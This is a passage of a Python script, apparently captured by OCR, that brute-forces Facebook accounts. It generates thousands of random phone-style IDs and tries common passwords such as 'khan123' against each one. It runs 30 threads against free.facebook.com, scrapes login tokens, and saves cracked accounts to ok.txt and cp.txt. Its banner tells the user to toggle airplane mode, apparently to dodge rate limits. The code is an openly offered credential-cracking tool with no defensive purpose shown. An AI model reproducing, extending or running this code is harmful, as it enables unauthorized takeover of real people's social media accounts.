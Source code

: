 	print(47*'-')

	limit = int(input('[?] How many numbers to add 1000,5000,100000: '))

	for nmbr in range(limit):

		nmp = ''.join(random.choice(string.digits) for _ in range(7))

		user.append(nmp)

	with ThreadPool(max_workers=30) as yaari:

		os.system('clear')

		print(logo)

		tl = str(len(user))

		print('[+] Total Ids : \033[1;92m'+tl)

		print('\033[1;37;1m[$] Brute Has been started...(\033[1;92mPak-Afg\033[1;97m)');print(47*"-");print('    USE FLIGHT (\033[1;91mAIRPLANE\033[1;97m) MODE BEFORE USE');print(47*"-")

		for guru in user:

			uid = kode+guru

			pwx = [guru,'khan123','khankhan','khan1234','khan12345']

			yaari.submit(rcrack,uid,pwx,tl)

	print(47*"-")

	print('[✓] Crack process has been completed')

	print('[?] Ids saved in ok.txt,cp.txt')

	print(47*"-")

	print(' Press Inter To Back Menu')

	menu()

    

def rcrack(uid,pwx,tl):

	global loop

	global oks

	global agents

	try:

		for ps in pwx:

			session = requests.Session()

			pro = random.choice(agents)

			free_fb = session.get('https://free.facebook.com').text

			log_data = {

				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
